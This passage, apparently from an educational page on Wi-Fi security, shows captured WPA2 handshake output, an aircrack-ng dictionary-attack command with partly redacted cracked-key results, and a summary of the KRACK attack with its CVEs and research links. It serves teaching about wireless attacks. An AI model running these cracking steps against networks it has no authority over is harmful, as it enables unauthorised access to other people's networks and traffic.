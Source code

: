 The output here is:

    CH  1 ][ Elapsed: 18 s ][ 2017-02-19 21:38 ][ WPA handshake: XX:FC:AF:XX:XX:XX       
                                                                                           
     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                           
     XX:FC:AF:XX:XX:XX  -30   0      215     3077   90   1  54e  WPA2 CCMP   PSK  ZZZZZ  
                                                                                           
     BSSID              STATION            PWR   Rate    Lost    Frames  Probe             
                                                                                           
     XX:FC:AF:XX:XX:XX  XX:XX:XX:XX:XX:XX    3  -22    0e- 1e     0     2569

Next we create a list of passwords in password.lst.

We can then analyse the cap files with:

    aircrack-ng -w password.lst -b  XX:FC:AF:XX:XX:XX psk*.cap

This gives the results of (where some details have been removed):

    Aircrack-ng 1.2 rc4

    [00:00:00] 2/1 keys tested (28.31 k/s)

    Time left: 0 seconds                                     200.00%

    KEY FOUND! [ ------- ]

    Master Key     : 5C ------------------- 0C 
                           3A ------------------- 53

    Transient Key  : 6A ------------------- EB 
                           4D ------------------- 72 
                           7A ------------------- 87 
                           80 ------------------- 21

    EAPOL HMAC     : C0 ------------------- 95

### KRACK Vulnerability

On 16 October 2017, the weakness of the four-way handshake was also highlighted with KRACK (Key Reinstallation Attacks) [[paper](https://papers.mathyvanhoef.com/ccs2017.pdf)]:
> US-CERT has become aware of several key management vulnerabilities in the 4-way handshake of the Wi-Fi Protected Access II (WPA2) security protocol. The impact of exploiting these vulnerabilities includes decryption, packet replay, TCP connection hijacking, HTTP content injection, and others. Note that as protocol-level issues, most or all correct implementations of the standard will be affected. The CERT/CC and the reporting researcher KU Leuven, will be publicly disclosing these vulnerabilities on 16 October 2017.

Within the four-way handshake, in the third step, the protocol allows for the key to be sent many times. On resending, the nonce is reused, and which compromises the handshaking, and cracks the crypto.

The code is now available [here](https://github.com/vanhoefm/krackattacks/blob/gh-pages/index.html), and are defined in CVE-2017–13077, CVE-2017–13078, CVE-2017–13079, CVE-2017–13080, CVE-2017–13081, CVE-2017–13082, CVE-2017–13084, CVE-2017–13086, CVE-2017–13087, CVE-2017–13088. Here is the vulnerability in full:

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/Oh4WURZoR98" frameborder="0" allowfullscreen></iframe></center>
